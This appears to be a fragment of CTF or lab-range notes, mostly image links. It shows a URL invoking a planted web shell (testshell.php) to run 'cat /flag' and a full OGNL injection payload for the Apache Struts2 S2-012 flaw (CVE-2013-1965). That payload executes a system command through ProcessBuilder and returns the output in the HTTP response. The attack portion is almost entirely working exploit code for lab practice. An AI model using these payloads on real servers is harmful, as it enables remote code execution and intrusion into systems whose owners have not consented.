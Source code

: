 ![image-20230627092425169](%E9%9D%B6%E5%9C%BA.assets/image-20230627092425169.png)



http://eci-2zea3w7mdswy019i9but.cloudeci1.ichunqiu.com/testshell.php?1=cat%20/flag

![image-20230627092306418](%E9%9D%B6%E5%9C%BA.assets/image-20230627092306418.png)

## CVE-2013-1965 S2-012 RCE



```
name=%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/flag"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



![image-20230711110652692](%E9%9D%B6%E5%9C%BA.assets/image-20230711110652692.png)
